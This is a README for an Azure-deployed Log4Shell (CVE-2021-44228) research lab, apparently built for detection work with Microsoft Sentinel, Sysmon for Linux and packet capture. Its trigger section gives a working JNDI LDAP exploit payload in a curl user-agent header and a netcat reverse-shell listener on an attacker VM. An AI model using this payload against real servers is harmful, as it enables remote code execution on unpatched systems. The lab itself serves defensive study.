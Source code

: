 # Log4Shell Research Lab Environment

[![Deploy to Azure](https://aka.ms/deploytoazurebutton)](https://portal.azure.com/#create/Microsoft.Template/uri/https%3A%2F%2Fraw.githubusercontent.com%2FOTRF%2FMicrosoft-Sentinel2Go%2Fmaster%2Fgrocery-list%2FLinux%2Fdemos%2FCVE-2021-44228-Log4Shell%2Fazuredeploy.json)

## Metadata

* **Author:** [Roberto Rodriguez (@Cyb3rWard0g)](https://twitter.com/Cyb3rWard0g)
* **Deployment time:** 5-10 mins

## Grocery Items

* Microsoft Sentinel
    * Would you like to Bring-Your-Own Microsoft Sentinel?.
    * If so, set the `workspaceId` and `workspaceKey` parameters of your own workspace.
* 2 Linux VMs: `Ubuntu 18.04.6 LTS` - Kernel release: `5.4.0-1059-azure `
    * `UBUNTU5`
        * [Log Analytics Agent for Linux](https://github.com/microsoft/OMS-Agent-for-Linux) installed
        * It connects to the Microsoft Log Analytics workspace defined in the template.
        * [Syslog Data Connector](https://docs.microsoft.com/en-us/azure/sentinel/connect-syslog) enabled
        * Linux Syslog Facilities collected
            * `user`
        * [Sysmon for Linux installed](https://github.com/Sysinternals/SysmonForLinux)
            * [Sysmon for Linux installer](https://github.com/OTRF/Blacksmith/blob/master/resources/scripts/bash/Install-Sysmon-For-Linux.sh)
            * [Sysmon configuration](https://github.com/OTRF/Blacksmith/blob/master/resources/configs/sysmon/linux/sysmon.xml)
        * [Tomcat v8.5.3](https://tomcat.apache.org/)
        * Java Libraries:
            * [javax.servlet-api v4.0.1](https://mvnrepository.com/artifact/javax.servlet/javax.servlet-api/4.0.1)
            * log4j-core ([2.14](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-core/2.14.0), [2.15](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-core/2.15.0), [2.16](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-core/2.16.0))
            * log4j-api ([2.14](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-api/2.14.0), [2.15](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-api/2.15.0), [2.16](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-api/2.16.0))
    * `UBUNTU6`
        * [Rogue JNDI](https://github.com/Cyb3rWard0g/log4jshell-lab/tree/main/attacker/rogue-jndi)

## Validate Environment

### UBUNTU5
SSH to `UBUNTU5` box and make sure the `Tomcat` and `Sysmon for Linux` services are running:

```bash
service tomcat status

service sysmon status
```
### UBUNTU6
SSH to `UBUNTU6` box to make sure the `Rogue JNDI` docker container is running:

```bash
docker ps

docker logs --follow rogue-jndi
```

## Trigger CVE-2021-44228 (Example)

This scenario simulates an attacker using the log4j [CVE-2021-44228](https://logging.apache.org/log4j/2.x/security.html#CVE-2021-44228) RCE vulnerability to get a reverse shell via netcat.

### UBUNTU6

Start a netcat listener on port `443`:

```
nc -lvnp 443
```

### UBUNTU5

Vulnerable applications were compiled during the deployment of the victim Azure VM.

```bash
curl -X GET -H 'user-agent: ${jndi:ldap://192.168.2.6:1389/o=reference}' 127.0.0.1:8080/Log4j-2.14.0-SNAPSHOT/api
```

## Query Microsoft Sentinel

Check your Sysmon logs:

```
Syslog 
| extend EventID = parse_xml(SyslogMessage).Event.System.EventID 
| extend EventData = parse_xml(SyslogMessage).Event.EventData.Data 
| mv-expand bagexpansion=array EventData 
| evaluate bag_unpack(EventData) 
| extend Key=tostring(['@Name']), Value=['#text'] 
| evaluate pivot( 
    Key, any(Value), TimeGenerated, TenantId, SourceSystem, 
    EventID, Computer, Facility, SeverityLevel, HostIP, MG, Type, _ResourceId 
)
```

## Additional Features

### Collect Network Traffic via TCPDump

on `UBUNTU5`, open a new ssh session and run the following commands before running the basic test:

```bash
tcpdump -i eth0 -w log4jShell.pcap host 192.168.2.5 and host 192.168.2.6
```

You can then copy the PCAP from your Azure VM to your local endpoint:

```bash
scp user@x.x.x.x:/home/user/log4jShell.pcap C:\Users\YOU\Downloads\
```

Open the PCAP in [Wireshark](https://www.wireshark.org/):

![](../../../../resources/images/log4jshell-trigger-rce-basicjar-reverseshell-pcap.png)

**Security Datasets - PCAP**: [https://securitydatasets.com/notebooks/atomic/linux/initial_access/SDLIN-211214154100.html](https://securitydatasets.com/notebooks/atomic/linux/initial_access/SDLIN-211214154100.html)

## References
* https://github.com/Cyb3rWard0g/log4jshell-lab